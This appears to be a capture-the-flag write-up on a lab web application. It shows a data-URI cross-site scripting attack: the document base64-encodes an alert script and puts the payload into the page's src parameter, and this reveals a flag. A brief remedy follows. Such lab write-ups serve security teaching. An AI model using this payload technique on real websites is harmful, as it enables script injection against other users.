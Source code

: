 # DATA_URI_XSS
XSS using data URI. XSS is a type of security vulnerability found in web applications that enables malicious attackers to inject client-side script into web pages viewed by other users. Our website is vulnerble to such an attack.     


## Example
If we got the <a href=">home<a/> we see a number of images, one of those has a link to that redirects us to <a href="http://192.168.43.251/?page=media&src=nsa">this media page</a> where we are presented with a page that has a this <a href="http://192.168.43.251/images/nsa_prism.jpg">link</a>. In essence this image is sourced using data uri which on inspection can be manipulated.

## Exploit
You can either edit the source on the actual element or on the url bar, we'll use the url bar. What we want to do is encode a js script 
```bash (<script>alert('It is about to go down')</script>)``` 

When we base 64 encode our js sting using a python script we get this 

* ```bash PHNjcmlwdD5hbGVydCgnSXQgaXMgYWJvdXQgdG8gZ28gZG93bicpPC9zY3JpcHQ+ ``` 
We can append that to the src as 
```bash data:text/html;base64,PHNjcmlwdD5hbGVydCgnSXQgaXMgYWJvdXQgdG8gZ28gZG93bicpPC9zY3JpcHQ+ ``` 
This now allows us to get our flag:928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d.

## Remedy
* Sanitise all client side input to make, this help in avoiding such attacks

## Resources
* https://stackabuse.com/encoding-and-decoding-base64-strings-in-python/
* https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris